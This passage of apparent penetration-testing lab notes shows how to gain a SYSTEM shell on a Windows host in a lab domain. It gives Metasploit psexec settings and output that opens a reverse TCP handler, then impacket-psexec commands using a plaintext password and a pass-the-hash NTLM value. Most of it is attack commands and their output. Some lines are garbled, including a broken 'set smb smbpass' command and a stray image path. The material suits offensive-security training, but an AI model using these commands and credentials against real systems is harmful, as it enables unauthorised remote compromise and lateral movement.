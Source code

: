```
View the full module info with the info, or info -d command.

```

- Now change it to Administrator
#metasploitadminhashsetup

- `set smbuser Administrator`
- `unset domain`
- `set smb smbpass aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33
- `run`

```
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.64.4:4444 
[*] 192.168.64.220:445 - Connecting to the server...
[*] 192.168.64.220:445 - Authenticating to 192.168.64.220:445 as user 'Administrator'...
[*] 192.168.64.220:445 - Selecting PowerShell target
[*] 192.168.64.220:445 - Executing the payload...
[+] 192.168.64.220:445 - Service start timed out, OK if running a command or non-service executable...
[*] Exploit completed, but no session was created.

```

## Running psexec manually

#impacket-psexecmanually
#psexecmanually

1. Using fcaste

```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec MARVEL/fcastle:'P@$$w0rd1'@192.168.64.220
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.64.220.....
[*] Found writable share ADMIN$
[*] Uploading file VgetlBZO.exe
[*] Opening SVCManager on 192.168.64.220.....
[*] Creating service PPJt on 192.168.64.220.....
[*] Starting service PPJt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.264]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami 
nt authority\system

```

2. Using the Administrator 
`impacket-psexec administrator@192.168.64.220 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33`
